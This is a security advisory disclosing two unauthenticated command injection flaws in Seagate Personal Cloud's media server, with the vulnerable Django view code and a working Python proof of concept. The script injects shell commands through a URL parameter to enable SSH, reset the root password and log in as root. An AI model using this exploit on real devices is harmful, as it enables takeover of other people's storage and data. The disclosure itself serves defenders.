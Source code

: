 # SSD Advisory – Seagate Personal Cloud Multiple Vulnerabilities

## Vulnerabilities summary
The following advisory describes two (2) unauthenticated command injection vulnerabilities.

Seagate Personal Cloud Home Media Storage is “the easiest way to store, organize, stream and share all your music, movies, photos, and important documents.”

## Credit
An independent security researcher, Yorick Koster, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
Seagate was informed of the vulnerability on October 16, but while acknowledging the receipt of the vulnerability information, refused to respond to the technical claims, to give a fix timeline or coordinate an advisory

## Vulnerabilities details
Seagate Media Server uses Django web framework and is mapped to the .psp extension.

Any URL that ends with .psp is automatically send to the Seagate Media Server application using the FastCGI protocol.
/etc/lighttpd/conf.d/django-host.conf:


```
fastcgi.server += (
".psp"=>
   ((
      "socket" => "/var/run/manage_py-fastcgi.socket",
      "check-local" => "disable",
      "stream-post" => "enable",
      "allow-x-send-file" => "enable",
   )),
".psp/"=>
   ((
      "socket" => "/var/run/manage_py-fastcgi.socket",
      "check-local" => "disable",
      "stream-post" => "enable",
      "allow-x-send-file" => "enable",
   ))
)
```


URLs are mapped to specific views in the file /usr/lib/django_host/seagate_media_server/urls.py.

Two views were found to be affected by unauthenticated command injection.

The affected views are:

- uploadTelemetry
- getLogs

These views takes user input from GET parameters and pass these unvalidated/unsanitized to methods of the commands Python module.

This allows an attacker to inject arbitrary system commands, that will be executed with root privileges.

/usr/lib/django_host/seagate_media_server/views.py:


```
@csrf_exempt
def uploadTelemetry(request):
   ts = request.GET.get('TimeStamp','')
   if (checkDBSQLite()) :
      response = '{"stat":"failed","code":"80","message":"The Database has not been initialized or mounted yet!"}'
   else :
      if ts == "":
         response = '{"stat":"failed","code":"380","message":"TimeStamp parameter missing"}'
         return HttpResponse(response);
      cmd = "/usr/local/bin/log_telemetry "+str(ts)
      commands.getoutput(cmd)
   return HttpResponse('{"stat":"ok"}')
```


/usr/lib/django_host/seagate_media_server/views.py:


```
@csrf_exempt
def getLogs (request):
   try:
      cmd_base='/usr/bin/log-extract-manager.sh'
      uID = request.GET.get ( 'arch_id', None )
      time_stamp = request.GET.get ( 'time_stamp', '' )

      if uID:
         (status, output) = commands.getstatusoutput(cmd_base + ' status ' + uID);
         if ('In progress' in output) and (uID in output) :
            return HttpResponse ('{"stat":"ok", "data": {"status":"In Progress"}}')
         elif (status == 0) :
            return HttpResponse ('{"stat":"ok", "data": {"url":"%s", "fileSize":"%d"}}' % ( urllib.quote(output.encode('utf-8')), os.path.getsize(output) ))
         else :
            return HttpResponse ('{"stat":"failed", "code":"853","message":"Id not recognized."}' )
      else:
         (status, output) = commands.getstatusoutput(cmd_base + ' start ' + time_stamp);
         if (status == 0) :
            return HttpResponse ('{"stat":"ok", "data": {"archiveID":"%s"}}' % (output))

      return HttpResponse ('{"stat":"failed", "code":"852","message":"Zip file not created."}' )
   except :
      return HttpResponse ('{"stat":"failed", "code":"852","message":"Zip file not created."}' )
```


Note that both views contain the csrf_exempt decorator, which disables the default Cross-Site Request Forgery protection of Django. As such, these issues can be exploited via Cross-Site Request Forgery.

### Proof of Concept
The following proof of concept will try to enable the SSH service, and change the root password. When successful it will be possible to log into the device over SSH with the new password.


```
#!/usr/bin/env python
import os
import urllib

scheme = 'http'
host = 'personalcloud.local'
port = '80'
path = 'uploadTelemetry.psp'
querystr = 'TimeStamp=%3b'
#path = 'getLogs.psp'
#querystr = 'time_stamp=%3b'
password = 'Welcome01'

cmds = ['ngc --start sshd 2>&1',
      'echo -e "%(s)s\n%(s)s"|passwd 2>&1' % {'s' : password}]

for cmd in cmds:
   print 'Running command', repr(cmd)
   cmd = urllib.quote_plus(cmd)
   r = urllib.urlopen('%s://%s:%s/%s?%s%s' % (scheme, host, port, path, querystr, cmd))
   print r.read()

print 'Log in with', password
os.system('ssh -p 2222 root@%s' % host)
```